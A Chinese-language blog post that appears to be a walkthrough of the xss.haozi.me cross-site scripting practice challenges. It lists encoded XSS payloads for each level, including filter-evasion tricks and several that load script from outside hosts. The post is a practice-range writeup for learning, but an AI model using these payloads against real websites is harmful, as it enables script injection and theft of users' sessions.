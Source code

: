 ```yaml
---
layout: post
title: xss.haozi.me writeup
---
```

> URL: https://xss.haozi.me/#/0x00
> 
> Github: https://github.com/haozime/xss-demo

吃饭前看到知乎上有帖子在讨论这个跨站题库，花了点时间通关，不过质量并没有想象中那么高，很多题可以构造通用 Payload 绕过，可能是出题者当时考虑的稍微少了一点。

另外好几关原封不动的拿 cure53 的 prompt (https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml) 题库来占位，有点儿想吐槽。

#### 0x00 ~ 0x09

    - http://xss.test/?input=%3Cscript%3Ealert(1)%3C/script%3E
    - http://xss.test/?input=%3C/textarea%3E%3Cscript%3Ealert(1)%3C/script%3E
    - http://xss.test/?input=%22%3E%3E%3Cscript%3Ealert(1)%3C/script%3E
    - http://xss.test/?input=%22%3E%3E%3Cscript%3Ealert%601%60%3C/script%3E
    - http://xss.test/?input=%3Cimg%20src=%22x%22%20onerror=%22&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;%22%3E
    - http://xss.test/?input=asdasd%20--!%3E%3Cimg%20src=%22x%22%20onerror=%22&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;%22%3E
    - http://xss.test/?input=type=%22images%22%20onclick%0A=alert(1)
    - http://xss.test/?input=%3Csvg%20onload=alert(1)//
    - http://xss.test/?input=%3C/style%20%3E%3Cscript%3Ealert(1)%3C/script%3E
    - http://xss.test/?input=https://www.segmentfault.com@html5sec.org/test.js

#### 0x0A ~ 0x12

    - http://xss.test/?input=https://www.segmentfault.com@html5sec.org/test.js
    - http://xss.test/?input=%3Cscript%20src=%22https://server.n0tr00t.com/t.js%22%3E%3C/script%3E
    - http://xss.test/?input=%3Cscrscriptipt/**/src=%22https://server.n0tr00t.com/t.js%22%3E%3C/scscriptript%3E
    - http://xss.test/?input=%0Aalert(1)%0A--%3E
    - http://xss.test/?input=%3C%C5%BFcript%20src=https://server.n0tr00t.com/t.js%3E%3C/script%3E
    - http://xss.test/?input=%5C%5C');%0Aalert('1
    - http://xss.test/?input=alert(1);
    - http://xss.test/?input=asd%22);alert(%221
    - http://xss.test/?input=%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E

![](https://ws1.sinaimg.cn/large/c334041bgy1fdwutpkrstj220q17mjzf.jpg)
